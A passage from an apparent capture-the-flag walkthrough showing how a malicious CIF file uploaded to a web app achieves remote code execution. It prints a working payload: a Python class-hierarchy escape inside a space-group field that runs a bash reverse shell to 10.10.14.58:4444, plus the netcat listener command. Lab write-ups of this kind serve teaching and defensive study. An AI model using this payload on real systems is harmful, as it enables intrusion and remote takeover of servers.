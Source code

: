 {% hint style="success" %}
To learn more about File Upload exploitation you can go [here](../../web-exploitation/broken-access-control/abuse-file-upload.md)
{% endhint %}

***

* With this, I crafted a modified version of the CIF file to execute commands remotely. In that case, I modify it by adding a script to gain the Reverse Shell

{% code title="exploit.cif" overflow="wrap" lineNumbers="true" %}
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.58/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
{% endcode %}

{% hint style="info" %}
I used a custom payload for the reverse shell because some standard payloads didn't work, and the script had special characters that needed to be interpreted&#x20;
{% endhint %}

***

* After that, I uploaded the file to the system and set a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener in my machine to receive the connection. Then, I clicked the _View_ button to run the internal script, observing the page kept loading and checking that the listener had caught the shell from the host. I also sanitized the terminal to work more comfortably and checked which user I was. having now access as the _app_ user, the one from the web server

{% code lineNumbers="true" %}
```bash
nc -nvlp 4444
```
{% endcode %}
